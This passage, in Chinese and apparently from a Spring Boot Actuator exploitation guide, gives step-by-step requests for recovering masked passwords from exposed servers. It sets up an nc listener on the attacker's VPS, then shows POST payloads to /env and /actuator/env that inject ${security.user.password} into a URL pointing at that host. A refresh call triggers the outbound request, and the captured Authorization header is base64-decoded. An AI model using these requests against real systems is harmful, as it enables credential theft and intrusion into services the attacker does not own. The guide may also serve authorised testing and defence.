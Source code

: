 spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```



##### 步骤五： 解码属性值

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```
Authorization: Basic dmFsdWU6MTIzNDU2
```

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值 `value:123456`，其中的 `123456` 即是目标星号 * 脱敏前的属性值明文。



### 0x05：获取被星号脱敏的密码的明文 (方法三)

#### 利用条件：

- 通过 POST `/env` 设置属性触发目标对外网指定地址发起任意 http 请求（**这里会改原本的配置，要注意，改的属性会不会影响到网站服务**）
- 目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法：

> 参考 UUUUnotfound 提出的 [issue-1](https://github.com/LandGrey/SpringBootVulExploit/issues/1)，可以在目标发外部 http 请求的过程中，在 url path 中利用占位符带出数据

##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```bash
nc -lvk 80
```

##### 步骤三： 触发对外 http 请求

- `spring.cloud.bootstrap.location` 方法（**同时适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/?=${security.user.password}"}
```
